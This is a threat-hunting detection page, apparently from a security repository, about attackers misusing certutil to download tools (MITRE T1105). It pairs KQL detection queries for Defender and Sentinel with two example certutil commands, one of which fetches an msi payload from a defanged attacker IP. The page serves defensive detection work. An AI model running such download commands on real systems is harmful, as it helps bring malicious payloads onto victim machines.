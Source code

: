 # Certutil Remote Download

## Query Information

#### MITRE ATT&CK Technique(s)

| Technique ID | Title    | Link    |
| ---  | --- | --- |
| T1105| Ingress Tool Transfer | https://attack.mitre.org/techniques/T1105/ |

#### Description
Adversaries may transfer tools or other files from an external system into a compromised environment. Tools or files may be copied from an external adversary-controlled system to the victim network through the command and control channel or through alternate protocols. The living of the land binary certutil is know to be misused by adversaries to remotely collect malicious tools.

Malicious Examples (Sources, see references):
```PowerShell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil  -urlcache -f http[:]//23.26.137[.]225:8084/msappdata.msi c:\mpyutd.msi
```

#### Risk
An adversary transfered tools to the local device for execution.

#### References
- https://lolbas-project.github.io/lolbas/Binaries/Certutil/
- https://www.huntress.com/blog/slashandgrab-screen-connect-post-exploitation-in-the-wild-cve-2024-1709-cve-2024-1708

## Defender For Endpoint
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache")
| project-reorder Timestamp, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```
## Sentinel
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache")
| project-reorder TimeGenerated, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```